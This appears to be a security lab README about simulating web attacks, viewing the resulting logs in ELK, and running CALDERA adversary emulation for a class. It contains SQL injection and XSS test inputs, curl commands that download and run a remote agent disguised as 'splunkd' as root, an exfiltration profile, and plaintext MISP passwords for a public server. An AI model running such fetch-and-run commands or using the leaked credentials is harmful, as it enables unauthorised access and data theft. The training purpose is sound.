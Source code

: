 
# Attack Anatomy

After Installing ELK & fluentd
  We should generate some log in the following files : <br>
     - /var/log/httpd/access_log<br>
	   - /var/log/httpd/error_log<br>
	   - /var/log/httpd/modsec_audit.log

By Testing web application attack using the following link:<br>
#### Begin attack Simulation
SQL injection<br>
http://127.0.0.1/Vulnerable-Web-Application-master/SQL/sql1.php?category=Gifts%27+OR+1=1--

XSS<br>
http://127.0.0.1/Vulnerable-Web-Application-master/XSS/XSS_level1.php
<script>alert(123)</script>

* Let move to elacticSearch 
  #### go to  Stack Management > Index Management 
   
   you should fine the following Index
   <img src="images/elk_index.JPG">
   
   #### Creat Index pattern  Stack Management > Index patterns
   <img src="images/create_index1.JPG">
   
   Name : apache_error_log_result*
   Timestamp field : @timestamp
    <img src="images/create_index2.JPG">
    
  * Now go to Discover, you should have date visualisation like this
  <img src="images/elk_data.JPG">


[6c1d8c4afbc7f85f05fb2e4d17e5553255b0195a0b56ba5309e362e2156debfc]


 
## CALDERA
http://66.117.8.162:8888/<br>


  ```sh
server="http://66.117.8.162:8888";<br>
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd1;<br>
chmod +x splunkd1;<br>
./splunkd1 -server $server -group red1 -v<br>
  ```

As root user<br>

Change N by your Id on "splunkdN"<br>
Change N by your Id on "redN"<br>
run the following command : <br>

  ```sh
server="http://66.117.8.162:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkdN;<br>
chmod +x splunkdN;<br>
./splunkdN -server $server -group redN -v<br>
  ```
  
Verified agent status<br>
Define Adversaries profile : Thief<br>
Expand operation<br>

Go to Exfilled Files, and download your exfiltered data<br>



## MISP
http://66.117.8.162:8080/users/admin_index<br>
admin				kVYoghBmxQOH4o4HnQmcsBZiA<br>
admin@admin.test		6_EusicnWdL3zHvl0Qm5IhRjS<br>
user1@testmips.com		Mssjo20s@sjs+qs51<br>
user2@testmips.com		Mssjo20s@sjs+qs521<br>
user3@testmips.com		Mssjo20s@sjs+qs53<br>
user4@testmips.com		Mssjo20s@sjs+qs54<br>
user5@testmips.com		Mssjo20s@sjs+qs55<br>
user6@testmips.com		Mssjo20s@sjs+qs56<br>
user7@testmips.com		Mssjo20s@sjs+qs57<br>
user8@testmips.com		Mssjo20s@sjs+qs58<br>
user9@testmips.com		Mssjo20s@sjs+qs59<br>
user10@testmips.com		Mssjo20s@sjs+qs10<br>




https://github.com/kbandla/APTnotes
https://github.com/center-for-threat-informed-defense/adversary_emulation_library
https://github.com/center-for-threat-informed-defense/adversary_emulation_library/blob/master/apt29/Intelligence_Summary.md
https://center-for-threat-informed-defense.github.io/attack-flow/example_flows/
https://docs.google.com/spreadsheets/u/1/d/1H9_xaxQHpWaa4O_Son4Gx0YOIzlcBWMsdvePFX68EKU/pubhtml?pli=1#
https://github.com/mxm0z?tab=repositories
https://github.com/mxm0z/awesome-threat-detection#trainings
https://github.com/microsoft/msticpy



 
